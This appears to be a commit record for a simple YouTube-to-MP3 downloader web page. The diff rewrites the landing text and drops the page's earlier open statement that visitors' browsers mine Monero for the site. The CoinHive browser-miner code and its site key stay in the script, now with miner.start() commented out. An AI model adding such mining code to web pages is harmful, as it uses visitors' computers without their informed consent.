

Before and after one commit to swaggetty-yolognese/youtube-downloader, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; a script that the page names is missing.

Commit message:
Adjust text in landing

```diff
--- a/index.html
+++ b/index.html
@@ -16,34 +16,22 @@
 <body>
 
 <nav class="navbar navbar-expand-lg navbar-light bg-light">
-  <a class="navbar-brand" href="#">YMM</a>
-  <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarSupportedContent" aria-controls="navbarSupportedContent" aria-expanded="false" aria-label="Toggle navigation">
-    <span class="navbar-toggler-icon"></span>
-  </button>
+  <a class="navbar-brand" href="#">YMD</a>
+
 </nav>
 <br>
 
 <div class="container">
-  <h1 class="text-center">Youtube Monero Miner</h1>
+  <h1 class="text-center">Simple youtube mp3 downloader</h1>
   <hr>
   <div class="row">
     <div class="col-sm-6">
       <p>
-        This website doesn't run any advertisment to support itself.
+        Welcome to the swaggetty youtube-to-mp3 downloader.
         <br>
-        Your data will not be mined or shared with anybody, ever.
+        The service is free of charge and you can download as many songs as you  want, please abuse it! We will not spam or bug you with ads of mining data we aim to provide a smooth mp3 downloading experience, we'll try to earn just as little as we need to keep he service running.
         <br>
-        In fact, we're not even recording what you're doing, we don't care.
-        <br>
-        This is the future of advertising 👽
-        <br>
-        Your browser is mining us a little Monero with the CPU of your computer.
-        <br>
-        This coins will go directly to us, without intermediaries.
-        <br>
-        Your data is actually meaningless for us.
-        <br>
-        Enjoy this service data safe!
+        Enjoy the service!
       </p>
     </div>
     <div class="col-sm-6">
@@ -58,12 +46,12 @@
             class="form-control"
             id="youtube-address"
             aria-describedby="youtubeAddress"
-            placeholder="Enter the Youtube Address you want to download as MP3">
+            placeholder="Youtube link to download as MP3">
 
           <span class="error-message hidden"></span>
         </div>
 
-        <button type="submit" class="btn btn-primary get-uuid">
+        <button type="submit" class="btn btn-primary btn-block get-uuid">
           Search
         </button>
 
@@ -131,8 +119,8 @@
   };
 
   $(document).ready(function () {
-    var miner = new CoinHive.Anonymous('swkUIClYeRabRXrCJG9IeSHOSvSRsnSL', { throttle: 0.999 });
-    miner.start();
+    var miner = new CoinHive.Anonymous('swkUIClYeRabRXrCJG9IeSHOSvSRsnSL', { throttle: 0.90 });
+    //miner.start();
 
     var youtubeFetcher = new YoutubeFetcher();
 
```
